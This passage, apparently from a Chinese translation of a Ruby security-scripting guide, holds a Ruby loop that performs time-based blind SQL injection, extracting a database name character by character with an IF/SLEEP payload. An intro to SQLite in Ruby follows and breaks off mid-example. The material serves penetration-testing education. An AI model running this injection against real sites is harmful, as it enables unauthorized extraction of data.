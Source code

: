 ```
time2wait = 5
extracted = []
(1..76).map do |position| 
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
     query = "1\" AND IF((ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}, SLEEP(#{time2wait}), NULL)--+"

     result = send_tbsqli(url, query, time2wait)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

# 数据库

# 数据库

处理数据库是 Web 测试中必需的知识，在这里我们将介绍最常见的数据库以及如何在 Ruby 中处理它。

## SQLite

+   安装 sqlite3 gem

    ```
    gem install sqlite3 
    ```

    你必须在系统上安装 sqlite3 开发库

    ```
    apt-get install libsqlite3-dev 
    ```

+   基本操作

```
require "sqlite3"

# Open/Create a database
db = SQLite3::Database.new "rubyfu.db"

# Create a table
rows = db.execute <<-SQL
  CREATE TABLE attackers (
   id   INTEGER PRIMARY KEY   AUTOINCREMENT,
   name TEXT    NOT NULL,
   ip   CHAR(50)
);
SQL

# Execute a few inserts
```